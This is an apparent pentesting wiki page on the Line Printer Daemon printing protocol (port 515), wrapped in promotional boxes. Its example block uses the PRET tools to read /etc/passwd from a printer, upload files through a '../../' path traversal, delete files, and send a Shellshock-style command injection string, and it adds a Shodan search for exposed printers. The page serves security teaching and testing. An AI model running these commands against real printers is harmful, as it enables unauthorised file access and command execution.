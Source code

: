 

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

### **Introduction to LPD Protocol**

In the 1980s, the **Line Printer Daemon (LPD) protocol** was developed in Berkeley Unix, which later became formalized through RFC1179. This protocol operates over port 515/tcp, allowing interactions through the `lpr` command. The essence of printing via LPD involves sending a **control file** (to specify job details and user) along with a **data file** (which holds the print information). While the control file allows the selection of **various file formats** for the data file, the handling of these files is determined by the specific LPD implementation. A widely recognized implementation for Unix-like systems is **LPRng**. Notably, the LPD protocol can be exploited to execute **malicious PostScript** or **PJL print jobs**.

### **Tools for Interacting with LPD Printers**

[**PRET**](https://github.com/RUB-NDS/PRET) introduces two essential tools, `lpdprint` and `lpdtest`, offering a straightforward method to interact with LPD-compatible printers. These tools enable a range of actions from printing data to manipulating files on the printer, such as downloading, uploading, or deleting:

```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```

For individuals interested in further exploring the realm of **printer hacking**, a comprehensive resource can be found here: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

* `port 515`


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>


